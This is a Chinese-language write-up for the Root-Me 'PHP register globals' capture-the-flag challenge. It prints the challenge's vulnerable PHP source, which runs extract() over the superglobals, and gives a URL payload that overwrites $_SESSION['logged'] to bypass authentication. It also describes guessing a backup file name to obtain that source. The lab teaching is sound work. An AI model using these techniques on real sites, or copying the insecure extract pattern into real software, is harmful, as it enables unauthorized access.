 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[PHP register globals](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals)] [[解题报告](http://exp-blog.com/2019/03/05/pid-3456/)]

------

前置知识可以参考 [这里](http://php.net/manual/zh/security.globals.php) 。

大概意思就是，register_globals 是 PHP 的一个特性，在 4.2.0 版本之前，它是默认启用的。

当它启用的时候，PHP 会允许变量未初始化就使用（换言之在第一次使用的时候就是初始化的时候），这样就使得变量的来源变得不确定。

于是就可能直接在 URL 以传参的方式（如 `?key=val`）胁持变量初始化，若 PHP 代码没有考虑这种情况，就存在被入侵的风险。


------------

知道这个知识点后，回到这题。

开启挑战后进入一个页面，但是找不到任何注入点。虽然说提示是 register_globals ，但是不知道应该挟持哪个变量也是于事无补。

因此应该先想办法找到页面的 PHP 代码，从而找到可能被挟持的变量。


------------

注意到题目的另一个提示是（**开发者经常留下备份文件**）：

`It seems that the developper often leaves backup files around...`

虽然不难测试到主页名称是 `index.php` ，但是要找到它的备份名称也不是容易的事情，只能靠猜。

最终猜到备份页面名称为 `index.php.bak` （其实我真的很不喜欢猜文件名。。变成全凭运气解题好无语）

![](http://exp-blog.com/wp-content/uploads/2019/03/3968bd131631f5ea8eeca9563f71c340.png)

下载 [`index.php.bak`](http://challenge01.root-me.org/web-serveur/ch17/index.php.bak)  后得到页面的 PHP 代码为：

```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
    <html>
    <head>
    </head>
    <body>
      <h1>Authentication v 0.05</h1>
      <form action="" method="POST">
        Password <br/>
        <input type="password" name="password" /><br/><br/>
        <br/><br/>
        <input type="submit" value="connect" /><br/><br/>
      </form>
      <h3>'.htmlentities($res).'</h3>
    </body>
    </html>';
    return $aff;
}



session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>

```

从代码不难分析到关键点是这段代码，当条件为真时，它会打印真正的密码 `$hidden_password` :

```php
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || 
        (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
```


而要令条件为真，可以利用 `||` 后面的的条件 `(is_array($_SESSION) && $_SESSION["logged"]==1 )` ，

即我们要通过 register_globals 挟持的变量是 `_SESSION["logged"]` ，并将其初始化为 1 。

为此可以构造这样的 payload （测试发现双引号会被过滤，因此直接去掉亦可）：

`http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1`

挟持变量成功，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/03/46b65eb105b200812afcfe7b578d3f18.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
